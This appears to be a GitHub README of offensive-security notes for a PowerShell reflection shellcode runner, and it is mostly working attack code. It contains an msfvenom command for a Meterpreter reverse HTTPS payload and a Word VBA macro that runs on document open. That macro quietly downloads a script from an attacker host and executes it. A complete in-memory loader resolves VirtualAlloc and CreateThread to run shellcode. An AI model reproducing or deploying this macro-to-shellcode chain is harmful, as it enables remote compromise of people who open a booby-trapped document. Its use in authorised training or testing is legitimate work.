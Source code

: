 # PowerShell-Reflection-Shellcode-Runner

Payload generation

  	msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
  
 our Microsoft Office 2016 version of Word is a 32-bit process, which means that PowerShell will also launch as a 32-bit process.

VBA code calling the PowerShell cradle that executes the shellcode runner

                    Sub MyMacro()
                      Dim str As String
                      str = "powershell (New-Object System.Net.WebClient).DownloadString('http://<kali ip>/run.ps1') | IEX"
                      Shell str, vbHide
                    End Sub
                  
                    Sub Document_Open()
                      MyMacro
                    End Sub
                  
                    Sub AutoOpen()
                      MyMacro
                    End Sub

we can also try and use .txt extension 

Complete PowerShell script for in-memory shellcode runner

		function LookupFunc {
		
			Param ($moduleName, $functionName)
		
			$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
		    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
		      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
		    $tmp=@()
		    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
			return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
		}
		
		function getDelegateType {
		
			Param (
				[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
				[Parameter(Position = 1)] [Type] $delType = [Void]
			)
		
			$type = [AppDomain]::CurrentDomain.
		    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
		    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
		      DefineDynamicModule('InMemoryModule', $false).
		      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
		      [System.MulticastDelegate])
		
		  $type.
		    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
		      SetImplementationFlags('Runtime, Managed')
		
		  $type.
		    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
		      SetImplementationFlags('Runtime, Managed')
		
			return $type.CreateType()
		}
		
		$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
		
		[Byte[]] $buf = generated shell code
		
		[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
		
		$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) 	
  			([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
		
		[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
		
		  
